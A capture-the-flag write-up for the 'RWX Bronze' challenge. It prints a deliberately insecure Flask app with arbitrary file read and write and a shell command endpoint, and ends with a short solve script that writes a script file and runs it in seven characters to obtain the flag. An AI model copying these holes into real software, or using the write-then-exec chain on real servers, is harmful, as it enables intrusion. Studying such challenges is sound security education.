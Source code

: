 # RWX Bronze

The challenge is running a flask application with this backend:

```py
from flask import Flask, request, send_file
import subprocess

app = Flask(__name__)

@app.route('/read')
def read():
    filename = request.args.get('filename', '')
    try:
        return send_file(filename)
    except Exception as e:
        return str(e), 400

@app.route('/write', methods=['POST'])
def write():
    filename = request.args.get('filename', '')
    content = request.get_data()
    try:
        with open(filename, 'wb') as f:
            f.write(content)
        return 'OK'
    except Exception as e:
        return str(e), 400

@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 7:
        return 'Command too long', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=6664)
```

We can also find a binary on the server called `would`, which has this source code:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    char full_cmd[256] = {0}; 
    for (int i = 1; i < argc; i++) {
        strncat(full_cmd, argv[i], sizeof(full_cmd) - strlen(full_cmd) - 1);
        if (i < argc - 1) strncat(full_cmd, " ", sizeof(full_cmd) - strlen(full_cmd) - 1);
    }

    if (strstr(full_cmd, "you be so kind to provide me with a flag")) {
        FILE *flag = fopen("/flag.txt", "r");
        if (flag) {
            char buffer[1024];
            while (fgets(buffer, sizeof(buffer), flag)) {
                printf("%s", buffer);
            }
            fclose(flag);
            return 0;
        }
    }

    printf("Invalid usage: %s\n", full_cmd);
    return 1;
}
```

So basically we can do 3 things:
1. The /read endpoint allows us to read any file on the server
2. The /write endpoint allows us to write to any file on the server
3. The /exec endpoint allows us to execute commands, but they're limited to 7 characters

Our idea is to first upload a file wich will run the would command so we get the flag, and then execute it in a command of 7 or less characters. We can do it with: `sh ~/a`.

## solve.py

```py
import requests

url = "https://6057290665dbf6b6ce4ba6df0e9119eb-34914.inst2.chal-kalmarc.tf"

res = requests.post(f"{url}/write", params={'filename': '/home/user/a'}, data=b'/would "you be so kind to provide me with a flag"')
print("Write response:", res.text)
res = requests.get(f"{url}/exec", params={'cmd': 'sh ~/a'})
print("Flag:", res.text)
```
